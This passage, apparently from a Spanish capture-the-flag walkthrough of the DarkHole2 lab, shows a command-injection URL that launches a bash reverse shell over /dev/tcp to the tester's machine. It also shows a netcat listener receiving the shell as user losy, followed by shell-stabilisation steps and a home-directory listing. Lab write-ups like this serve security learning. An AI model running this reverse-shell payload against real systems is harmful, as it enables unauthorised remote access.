 ![](/imagenes/DarkHole2/darkhole19.png)

Tenemos entonces, una forma de ejectuar comandos como el usuario losy, vamos a ganar acceso como losy:
```
http://localhost:9999/?cmd=bash -c 'bash -i >%26 /dev/tcp/192.168.233.129/1234 0>%261'
```

Vamos a enviarnos una bash hacia nuestra máquina, utilizando el /dev/tcp, con ello entonces vamos a estar escuchando por netcat por el puerto 1234:
```
nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.233.128] from (UNKNOWN) [192.168.233.130] 55314
bash: cannot set terminal process group (1266): Inappropriate ioctl for device
bash: no job control in this shell
losy@darkhole:/opt/web$ whoami  
whoami
losy
```

Hemos ganado acceso como el usuario losy, vamos a arreglar la bash:

- script /dev/null -c bash
- control + z
- stty ray -echo; fg
- reset xterm
- export TERM=xterm
- export SHELL=bash
- stty rows X columns Y (dependiendo de tu stty size)

Con esto listo, ya podemos movernos con comodidad.

Si nos vamos al directorio personal de losy, encontraremos algo interesante:
```
losy@darkhole:~$ ls -la
total 36
drwxr-xr-x 4 losy losy 4096 Feb 24 16:44 .
drwxr-xr-x 5 root root 4096 Sep  2  2021 ..
-rw------- 1 losy losy 1123 Sep  3  2021 .bash_history
-rw-r--r-- 1 losy losy  220 Sep  2  2021 .bash_logout
-rw-r--r-- 1 losy losy 3771 Sep  2  2021 .bashrc
drwx------ 2 losy losy 4096 Sep  2  2021 .cache
drwxrwxr-x 3 losy losy 4096 Sep  3  2021 .local
-rw-r--r-- 1 losy losy  807 Sep  2  2021 .profile
-rw-rw-r-- 1 losy losy   55 Sep  3  2021 user.txt
```

Vemos el bash history, si le echamos un ojo y vamos revisando las lineas encontramos lo siguiente:
